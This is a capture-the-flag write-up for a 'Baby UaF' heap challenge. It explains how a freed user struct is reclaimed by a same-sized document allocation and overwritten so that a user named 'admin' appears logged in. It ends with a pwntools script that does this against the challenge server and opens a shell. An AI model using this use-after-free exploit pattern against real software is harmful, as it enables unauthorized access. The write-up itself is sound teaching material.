


[handout](./handout/Heap-0-Baby-UaF)

This challenge gives a very long lines of C source code

Here there are two importants things to notice

## 1

```c
#define NAME_LEN ((60))
#define DOCUMENT_LEN ((64))

typedef struct user_struct_t {
    char name[NAME_LEN];
    uint32_t logged_in;
} user_t;

typedef struct document_struct_t {
    char text[DOCUMENT_LEN];
} document_t;
```

The `user_t` and the `document_t` struct have the same length of 64 bytes (uint32_t is 4 bytes in #)

## 2

```c
printf("Deleted user %d (named %s)\n\n", arg1, users[arg1]->name);
free(users[arg1]);
```

And here is what happen when the program delete an user. The problem here is when it does `free(users[arg1])` it tells to the program that this pointer is avalaible, but the pointer still points to the value(s).

So if after we delete an user, and the program allocate a 64 bytes variable just after it will give us the previous pointer we just freed with all set to zeros because of `calloc` (calloc set the whole bloc of data to zeros)

```c
new_document = calloc(1, sizeof(*new_document));
```


From the source code we can see that if we can login as the admin user and run the `shell` command, we will get a shell.

But the problem here is that the admin user is created at the beginning and is not logged in.

Here are the steps:
- Create a thirs user with the command `create_user ir0nx`
- Delete that same user with the command `del_user 2` (we delete with index the first index is 0)
- Create a document with `create_doc`, while doing this we will be given the pointer of the user struct we just freed
- We can write into it "admin" up to 60 bytes and the last 4 bytes write anything but 0
- Then run `switch_user 2` to log as admin
- And run shell to get the shell

```python
from pwn import *

HOST, PORT = "chal.sigpwny.com", 1360

io = remote(HOST, PORT)

io.sendlineafter(b"> ",b"help")
io.sendlineafter(b"> ",b"info")
io.sendlineafter(b"> ",b"create_user ir0nx")
io.sendlineafter(b"> ",b"del_user 2")
io.sendlineafter(b"> ",b"create_doc")

name = b"admin"
logged_in = p32(1)

# 60 because the name bloc space is 60 bytes so (60-len(name))*b"\0" is to fill the remaining
payload = name + (60-len(name))*b"\0" + logged_in 
log.success(f"{len(payload) = }")
io.sendlineafter(b"> ",b"write_doc 0 " + payload)
io.sendlineafter(b"> ",b"switch_user 2")
io.sendlineafter(b">", b"shell")

io.interactive()
```

